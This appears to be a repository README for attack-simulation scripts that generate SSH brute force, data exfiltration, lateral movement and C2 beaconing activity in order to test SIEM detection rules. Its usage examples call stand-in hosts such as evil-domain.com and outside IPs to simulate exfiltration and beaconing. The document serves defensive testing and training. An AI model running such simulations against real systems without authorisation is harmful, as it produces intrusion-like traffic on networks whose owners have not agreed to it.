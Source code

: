 # Attack Simulations

This directory contains scripts and tools for simulating various attack scenarios to test your SIEM implementation and detection capabilities.

## Purpose

Security simulations serve several important purposes:

1. **Testing Detection Rules**: Verify that your SIEM correctly detects and alerts on malicious behavior
2. **Tuning Alert Thresholds**: Determine appropriate thresholds to minimize false positives/negatives
3. **Validating Response Playbooks**: Ensure that your automated response workflows function as expected
4. **Training Security Analysts**: Provide realistic scenarios for training and exercises

## Included Simulations

### Brute Force Attacks

The `brute_force.py` script simulates SSH brute force login attempts against a target server.

```bash
# Example: Simulate a medium-intensity brute force attack against 10.0.0.10 for 5 minutes
python3 brute_force.py --target 10.0.0.10 --duration 5 --intensity medium

# Example: Simulate and send logs directly to Logstash
python3 brute_force.py --target 10.0.0.10 --logstash "http://localhost:5000"
```

### Data Exfiltration

The `data_exfil.py` script simulates suspicious data transfers that might indicate exfiltration.

```bash
# Example: Simulate data exfiltration from an internal host to an external IP
python3 data_exfil.py --source 192.168.1.100 --destination 45.67.89.12 --volume large

# Example: Simulate DNS tunneling exfiltration
python3 data_exfil.py --technique dns --domain suspicious-domain.com
```

### Lateral Movement

The `lateral_movement.py` script simulates an attacker moving between systems after initial compromise.

```bash
# Example: Simulate lateral movement across 5 internal systems
python3 lateral_movement.py --initial-host 192.168.1.100 --hosts 5

# Example: Simulate specific technique (e.g., WMI lateral movement)
python3 lateral_movement.py --technique wmi --domain example.local
```

### Command & Control

The `c2_beacon.py` script simulates command and control beaconing activity.

```bash
# Example: Simulate beaconing to a C2 server every 5 minutes
python3 c2_beacon.py --c2-server evil-domain.com --interval 300 --duration 60

# Example: Simulate a specific C2 protocol (e.g., HTTPS with specific URI patterns)
python3 c2_beacon.py --c2-server 185.192.69.24 --protocol https --profile covenant
```

## Usage Guidelines

### Prerequisites

Before running these simulations, make sure:

1. You have the necessary permissions to run security testing in your environment
2. You've documented the testing in advance and informed relevant stakeholders
3. You're running the simulations in a controlled environment
4. Your SIEM stack (especially Elasticsearch and Logstash) is running and configured

### Configuring Simulations

Each simulation script has its own configuration options. Common parameters include:

- `--target`: The target IP or host for the simulation
- `--duration`: How long the simulation should run (in minutes)
- `--intensity`: How aggressive the simulation should be (low, medium, high)
- `--logstash`: URL for sending generated logs directly to Logstash

### Sending Logs

Simulation logs can be sent to your SIEM in several ways:

1. **Direct to Logstash**: Use the `--logstash` parameter to send logs directly to a Logstash HTTP input
2. **File Output**: Save logs to a file that can be picked up by a log collector (Filebeat, etc.)
3. **Syslog**: Some simulations can send logs via syslog to a collector

### Customizing Simulations

To customize simulations for your specific environment:

1. Copy an existing simulation script as a starting point
2. Modify the script to match your network architecture and naming conventions
3. Adjust the log formats to match your expected log structure
4. Test with a limited scope before expanding

## Creating New Simulations

To create a new simulation:

1. Create a new Python script in the `simulations/` directory
2. Follow the structure of existing simulations, with a class-based approach
3. Implement required methods:
   - `__init__`: Initialize parameters
   - `run_simulation`: Execute the simulation
   - `generate_log`: Generate appropriate log entries
   - `send_to_logstash`: Send logs to the SIEM

## Simulation Safety

These simulations are designed to be safe and non-destructive. However, always follow these guidelines:

1. **Never run simulations in production environments** without proper authorization and safeguards
2. Start with low-intensity simulations to validate behavior
3. Monitor system performance during simulations
4. Have a plan to terminate simulations if they cause unexpected issues
5. Exclude critical systems from test targets

## Troubleshooting

If your simulations aren't being detected by your SIEM:

1. Check that logs are being generated and sent correctly
2. Verify Logstash is receiving and processing the logs
3. Examine Elasticsearch to ensure logs are being indexed
4. Confirm that your detection rules are properly configured
5. Check time synchronization between systems